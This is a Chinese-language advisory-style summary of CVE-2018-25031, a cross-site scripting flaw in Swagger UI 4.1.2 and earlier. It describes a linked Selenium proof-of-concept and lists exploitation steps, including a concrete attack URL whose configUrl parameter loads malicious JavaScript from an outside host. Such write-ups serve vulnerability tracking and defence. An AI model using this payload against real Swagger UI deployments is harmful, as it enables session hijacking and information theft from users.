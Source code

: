 ## CVE-2018-25031-Swagger UI-跨站脚本攻击

**漏洞编号:** CVE-2018-25031

**漏洞类型:** 跨站脚本攻击 (XSS)

**影响应用:** Swagger UI

**危害等级:** 中危，可能导致信息泄露、会话劫持等

**影响版本:** <= 4.1.2

**利用条件:** 需要用户点击恶意构造的URL

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

该漏洞存在于Swagger UI 4.1.2及更早版本中。攻击者通过诱使用户打开一个精心制作的URL，可以利用此漏洞显示远程OpenAPI定义，从而可能执行恶意脚本。POC代码提供了一个Python脚本，该脚本使用Selenium自动化测试Swagger UI实例是否存在XSS漏洞，通过修改configUrl参数指向包含恶意JavaScript代码的JSON文件。虽然主要目的是测试XSS，但`sites_para_testar.txt`文件如果被替换为包含大量内网地址，则可能存在投毒风险。该脚本本身并不会主动传播恶意代码，而是依赖于目标Swagger UI实例的漏洞。由于POC依赖于外部JSON文件执行XSS，并且扫描的目标网站列表可以被修改，存在一定的投毒风险。

**漏洞利用方式：**

1.  攻击者构造一个包含恶意JavaScript代码的JSON或YAML文件，并将其托管在攻击者可控的服务器上。
2.  攻击者构造一个包含`configUrl`参数的URL，该参数指向托管恶意JSON/YAML文件的地址。例如：`http://127.0.0.1:8080/swagger-ui.html?configUrl=https://xss.smarpo.com/test.json`
3.  攻击者诱使用户（例如，Swagger UI管理员）点击该URL。
4.  当用户点击该URL时，Swagger UI会加载并解析恶意JSON/YAML文件。
5.  恶意JavaScript代码会在用户的浏览器中执行，可能导致信息泄露、会话劫持或其他恶意行为。

**项目地址:** [LUCASRENAA/CVE-2018-25031](https://github.com/LUCASRENAA/CVE-2018-25031)

**漏洞详情:** [CVE-2018-25031](https://nvd.nist.gov/vuln/detail/CVE-2018-25031)